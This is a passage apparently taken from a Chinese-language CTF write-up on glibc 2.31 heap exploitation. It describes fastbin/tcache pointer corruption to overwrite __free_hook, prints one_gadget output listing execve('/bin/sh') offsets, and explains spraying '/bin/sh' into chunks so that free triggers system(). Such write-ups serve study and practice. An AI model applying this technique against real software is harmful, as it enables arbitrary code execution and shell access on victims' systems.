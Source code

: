 前面嘗試 free 使 fastbin 損壞蓋寫 chunk next ptr 指向 free hook 的位置，再把 tcache 取完之後就可以取得該 chunk。

最後可以從 tcache 取出該塊並且設定 free hook 的內容。下圖可以看到 chunk 明顯不在 heap 當中。

![image-20210528034032862](./img/image-20210528034032862.png)



一開始想說採用 One gadget 搭配 malloc hook

```
one_gadget ./libc-2.31.so
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

不過 one gadget 在這似乎不是怎麼好用，r12 總不是 null。可以改用 free ，而 free 對應的 chunk 的 payload 的內容，可以編寫 `/bin/sh` 並且呼叫 `system()` 即可

為了利用 free hook ，在 malloc 後，盡可能 spray `/bin/sh` 進去，之後要 free 時候比較容易觸發。
